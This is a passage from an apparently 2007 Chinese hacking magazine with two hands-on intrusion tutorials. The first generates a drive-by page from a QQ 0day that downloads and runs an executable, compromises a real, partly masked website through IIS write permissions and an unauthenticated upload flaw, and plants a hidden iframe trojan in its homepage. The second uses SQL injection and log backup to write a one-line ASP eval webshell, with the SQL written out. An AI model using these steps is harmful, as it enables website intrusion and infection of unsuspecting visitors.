# 黑客X档案合订本2007年（上）第二部分

---

## 一个人的战争



图1

FTP 空间将 exe 文件上传（例如 X 档案免费提供的水晶 FTP 空间），在命令行下输入 `qq0day_exp.exe http://192.168.0.123/1.exe qq.html`，就可以生成一个 `qq.html` 文件。打开这个 `qq.html`，电脑就会去下载 `http://192.168.0.123/1.exe` 并在后台自动运行。虽然这个网马运行起来稍稍有点卡，不过比起其它暴力扩大内存的马儿来说，已经强了很多。

### 二、快速入侵找 webshell 挂马

刚才是在本地测试成功了，这没有什么意思，没有谁愿意做个马儿自己“享用”，肯定想把它挂出去抓一点肉鸡。那么我们还需要配置一个传统的特洛伊木马，你可以选择灰鸽子这种老牌木马，也可以选择本期杂志介绍的蓝蝴蝶，这都不是本文的重点。重点是怎么样快速地得到 webshell，并把网页木马挂到别人的网站上。

为了最快速地找到 webshell，我选择的是 IIS 写权限漏洞扫描工具。找一个人气还比较旺的黑客网站 `www.hackxx.cn`，在 CMD 中输入命令 `ping www.hackxx.cn` 得到它的 IP 地址是 `218.246.*.75`，接着把老兵 IIS 写权限漏洞工具的起始 IP 地址填写 `218.246.*.1`，结束地址填写 `218.246.*.254`，勾上“Try on other system”以免有些站长改变了 HTTP banner 工具就不去尝试上传了。单击“Scan”按钮，不一会就扫出一个红色感叹号的 IP，看来有戏，如图2。



图2

迅速拿出桂林老兵的 IIS 写权限上传工具，把“域名”处改为刚扫到的 IP 地址 `218.246.*.97`，然后在左边的下拉框里选中 PUT。这时工具自动弹出了文件浏览对话框，挑中一个短小精悍的海阳顶端一句话木马 `tt.asp`，单击“提交数据包”，如图3。成功地把 `tt.asp` 上传到了目标服务器上，保存为 `test.txt` 了。

接下来要在刚才选择“PUT”的下拉框里，把动作改成“MOVE”，把 `test.txt` 移动到 `shell.asp`，结果提示“HTTP/1.1 207 Multi-Status”，如图4。很明显失败了，其实这个问题在论坛上已经有好多人提出来过了，IIS 写权限可以上传 txt 文件，可是要转成 asp 的时候就出现这个 207 错误，我们一再测试也还没得到确切的结论，也没搞清楚为什么。不过今天我就是不想放弃，所以重新……

打开老兵的 IIS 写权限利用工具仔细研究，忽然注意到最下方有一行字：“PROPFIND 是生成返回有浏览目录权限的目录内容的数据包”。



图3



图4

虽然还不太理解这行字的意思，不过姑且试试看到底能够得到什么样的信息吧！把“数据包格式”改为 PROPFIND 后再提交了一次，这次看到数据哗啦哗啦地不停滚动。把得到的返回信息全部复制到一个记事本里慢慢看，结果看到如图5所示的内容。从图中我们可以看到很多服务器上敏感的目录和文件信息。先试验了一下 `http://218.246.*.97/admin808/`，结果出现了后台登录界面，没有用户名和密码我们就暂时不动它，一个一个路径继续访问，当访问到 `http://218.246.*.97/admin808/1.asp` 的时候有了收获了，如图6。居然不需要登录就可以直接进入管理页面了，很明显是程序的设计有问题，不过我们才不管那么多，随便挑了个新闻进行“修改”，看到有上传图片的地方。点击“上传图片”按钮弹出了上传页面，如图7。



图5









在上传页面中，鼠标右键，查看“源文件”，在源文件里搜索关键字“action”，找到处理上传页面的文件名是“action=uploads.asp”，所以确定 `http://218.246.*.97/admin8088/uploads.asp` 就是上传文件的页面。直接访问出现了熟悉的错误信息，和以前有上传漏洞的动态网页面非常相似，所以几乎是不加思索地我就打开了 Domain 3.5 的上传漏洞利用选项，把页面地址填入“提交地址”中，单击“上传”，如图8。

上传完成后在“Webshell 返回地址”的右边单击“打开”，如图9，看到了熟悉的旁注小助手。

因为这个 DIY.asp 的绝对路径是 `F:\zysite\admin8088\DIY.asp`，所以我找到一个由 LST 友谊提供免杀签名 X 档案的美化版 ASP 木马，把所有的代码复制到“输入文件的内容”里，在“路径”处填为 `F:\zysite\admin8088\DIY2.asp` 并“提交”。提示“保存成功”。访问 `http://218.246.*.97/admin8088/diy2.asp` 后，输入默认密码“123456”，如图10。



现在我们就可以编辑这个网站上的任意网页文件了，找到 index.asp 点击“edit”进入编辑页面模式，在页面的最末尾加入以下代码：`<iframe src=qq.html width=0 height=0></iframe>`，同时，把刚才配置好的 qq.html 上传到网站同目录中，挂马就算完成了。等别人访问这个网站之后，就会自动访问 qq.html 并运行我们配置好的“蓝蝴蝶”木马了。限于篇幅原因，我就不再继续演示了。

## 三、UC 也曝远程溢出漏洞

刚测试完 QQ 漏洞没多久，朋友又给我传来一个 UC 的网马生成器，其界面如图11。



它要针对不同的系统生成不同的网马，在 SP2 处填入要下载并运行的 exe 文件地址，单击“生成SP2”就会在当前目录下生成 `fuck.uc.html`，单击“生成2003”也会得到一个专门针对 Windows 2003 系统的漏洞利用文件。它的用法和前文配置好的 qq.html 完全一样，所以就不再多说了。

> 小知识：什么是 PoC  
> Proof of Concept，翻译成中文叫概念证明，也就是证实已发布漏洞可行性的测试代码，一般来说可以理解为漏洞利用工具，不是“莫须有”的意思。

（文章中涉及到的 QQ 最新 0day 利用工具和 UC 利用工具已收录到光盘中，黑客 X 档案专用美化版 ASP 木马请到黑客 X 档案论坛“杂志补遗”版下载）



zj1244 小蔡

近日无聊，在网上闲逛时发现一个站点，由于习惯直接在地址栏后面加单引号，回车后提示出错了（图1）。



```sql
1. backup log XXX to disk='d:\xp\test.asp';（备份日志到WEB路径）
2. drop table cmd;（删除新建的cmd表）
3. alter database XXX set RECOVERY SIMPLE;（把SQL设置成日志简单恢复模式）
```

注：XXX 是数据库名称，在第一次 NBSI 检测到的信息里可以看到；备份路径是刚才查出来的 Web 物理路径。

> **小技巧：**  
> 注意一下，以前流行的 DB_owner 以上权限注入点都是靠差异备份来拿 webshell 的，这里用的是 log 备份法。它用的是备份数据库日志功能来得到 webshell 的，和以前的数据库差异备份相比，它得到的 shell 体积小，而且成功率高，也不易被发现。

这个页面我想大家都很熟悉了，经典的 SQL 注入漏洞。马上拿出 NBSI，把网址填入“注入地址”，单击“检测”对其进行检测。不一会儿，我们想要的结果就出来了。哈哈，权限还是 SA 的，看来自气不错！如果不出意外，接下来的工作就简单了……

输入这些注入语句之前，我首先打开一个记事本，把需要修改的地方全部改好并检查数遍，确认没有问题后依次把语句复制到 `http://www.xxx.cn/product/detail.asp?id=37` 后面回车。不一会就成功得到一个小马（图2）。因为这个小马有很多垃圾信息在前面，我便用小马上传了个大马……

```sql
1. alter database XXX set RECOVERY FULL;（把SQL设置成日志完全恢复模式）
2. create table cmd(a image);（新建一个cmd表）
3. backup log XXX to disk='c:\cmd' with init;（减少备份数据的大小）
4. insert into cmd(a) values('<%@eval request("a");response.end%>');（插入一句话木马）
```

